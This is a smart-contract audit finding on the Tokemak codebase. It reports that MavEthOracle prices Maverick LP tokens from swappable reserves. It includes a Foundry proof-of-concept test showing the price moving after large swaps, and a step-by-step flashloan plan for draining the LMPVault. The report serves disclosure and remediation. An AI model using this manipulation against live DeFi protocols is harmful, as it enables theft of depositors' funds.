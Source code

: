 Perfect Dijon Leopard

high

# `MavEthOracle::getPriceInEth` can be manipulated by making swaps in the pool, due to incorrect LP token evaluation
## Summary

The `MavEthOracle::getPriceInEth` can be manipulated by making swaps in the pool, due to incorrect LP token evaluation.
An attacker can drain the LMPVault by inflating the price of Maverick LP token.


## Vulnerability Detail

The following gist contains a proof of concept, demonstraing the manipulation of `MavEthOralc::getPriceInEth`.
https://gist.github.com/lemonmon1984/1fa2b65cd5af377a0cedda04eda9c4ab

It is based on the existing test `test/oracles/providers/MavEthOracle.t.sol`.

The price of the lp token is logged three times:
- price1: before swap
- price2: after the swap on the maverick pool from WETH to SWETH (5000 ether)
- price3: after swapping back on the same pool from SWETH to the WETH (the entire balance)

The result of the test function (forked from the mainnet at the block of 17958278):
```solidity
Logs:
	price1: 1470375172788417698
	price2: 1471416798960606757
	price3: 1470711592033749474
```

As it shows the price from the `MavEthOracle::getPriceInEth` changes as the swap occurs. Note the price of the underlying assets (WETH and SWETH) is not changed in the mock. When the price can be manipulated in a transaction like this, an attacker can utilize flashloan to maximize their gain. For example, in the proof of concept, the swap was done with 5000 ether, but it can be done using flashloan, therefore the initial investment is only the gas. The attacker would pay the fee on the swap, therefore, they should gain enough by the price manipulation, however, it seems plausible depending on the volume of the asset in the maverick destination vault.


```solidity
// MavEthOracle
    // Test getPriceInEth
    function test_getPriceInEth_poc() external {
        // setup addresses
        IWETH9 weth = IWETH9(WETH9_ADDRESS);
        IERC20 sweth = IERC20(SWETH_MAINNET);

        // to have weth in this contract
        vm.deal(address(this), 10000 ether);
        weth.deposit{value: 10000 ether}();

        uint256 wethBalanceBefore = weth.balanceOf(address(this));
 
        // A: WETH
        // B: SWETH
        address mavAddr = ETH_SWETH_MAV;
        IPoolPositionDynamicSlim boostedPosition = IPoolPositionDynamicSlim(mavAddr);
        IMavPool pool = IMavPool(boostedPosition.pool());

    
        vm.mockCall(address(rootOracle), 
                    abi.encodeWithSelector(RootPriceOracle.getPriceInEth.selector, address(weth)),
                    abi.encode(1e18));
        vm.mockCall(address(rootOracle), 
                    abi.encodeWithSelector(RootPriceOracle.getPriceInEth.selector, address(sweth)),
                    abi.encode(1023519*1e12));
        //


 
        uint price1 = mavOracle.getPriceInEth(mavAddr);
        emit log_named_uint("price1", price1);

        // swap WETH -> SWETH
        uint256 swapAmount = 5000 ether;
        pool.swap(address(this), swapAmount, true, false, 0, abi.encode(0));

        uint price2 = mavOracle.getPriceInEth(mavAddr);
        emit log_named_uint("price2", price2);
				
        // swap back WETH -> SWETH
        pool.swap(address(this), sweth.balanceOf(address(this)), false, false, 0, abi.encode(1));

        uint price3 = mavOracle.getPriceInEth(mavAddr);
        emit log_named_uint("price3", price3);

        //// log
				// Logs:
				// 	price1: 1470375172788417698
				// 	price2: 1471416798960606757
				// 	price3: 1470711592033749474
    }
```

The cause of this vulnerability is that the Maverick's LP token is incorrectly evaluated:

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/oracles/providers/MavEthOracle.sol#L65-L75

Basically the price is 
`(reserveA * priceA) + (reserveB * priceB) / totalSupply`.
However, the numerator, which represents the total asset in the pool, can be swayed by making swaps in the pool, as shown in the above proof of concept.

For more on the pricing of LP tokens and the related real world hack, see the c.Michel's article:
https://cmichel.io/pricing-lp-tokens/


```solidity
// MavEthOracle::getPriceInEth
 66         // Price pool tokens.
 67         uint256 priceInEthTokenA = rootPriceOracle.getPriceInEth(address(pool.tokenA()));
 68         uint256 priceInEthTokenB = rootPriceOracle.getPriceInEth(address(pool.tokenB()));
 69
 70         // Calculate total value of each token in boosted position.
 71         uint256 totalBoostedPositionValueTokenA = reserveTokenA * priceInEthTokenA;
 72         uint256 totalBoostedPositionValueTokenB = reserveTokenB * priceInEthTokenB;
 73
 74         // Return price of lp token in boosted position.
 75         return (totalBoostedPositionValueTokenA + totalBoostedPositionValueTokenB) / boostedPositionTotalSupply;
 76         // slither-disable-end similar-names
```

## Impact

In the issue 10 - "`LMPVault`'s cached `totalDebt` can be abused to drain `LMPVault`", it is shown that one can profit from the price appreciation of the underlying asset by simple steps of
1. LMPVault::deposit
1. LMPVault::updateDebtReporting
1. LMPVault::withdraw

The price manipulation of MavEthOracle can be abused in the same way in the issue 10. Instead of waiting until the underlying asset's price goes up, the attacker can manipulate the price oracle to make the evaluation of Maverick LP token higher.

- Condition: assume there is a Maverick DestinationVault, which uses the MavEthOracle to evaluate the `debt` in the DV, and some assets are deployed to the DestinationVault via rebalance/flashRebalance.
1. An attacker will flashloan a substantial amount of ETH and they will deposit a part of the flashloan in the LMPVault.
1. The attacker will swap in the maverick pool to inflate the price of the Maverick LP Token.
1. The attacker calls `LMPVault::updateDebtReporting` with the Maverick DestinationVault (and maybe some other favorable ones) to update totalAsset in the LMPVault.
1. The attacker will now withdraw all the LMPVault's share. The LMPVault will now consider that it has more totalAsset than the beginning, therefore the attacker will get more of the baseAsset than what they have deposited.
1. The attacker swaps back and repay the flashloan.


As the result, the LMPVault can be potentially drained, as the attacker can mint/deposit LMPVault's share for a cheaper price and withdraw/redeem for a higher price.

Note that this exploitation can still happen even if the issue 10 is fixed, as the attacker will simply skip the `updateDebtReporting` step.


## Code Snippet

https://github.com/sherlock-audit/2023-06-tokemak/blob/main/v2-core-audit-2023-07-14/src/oracles/providers/MavEthOracle.sol#L65-L75

## Tool used

Manual Review

## Recommendation

Evaluate the Maverick LP token using fair pricing.

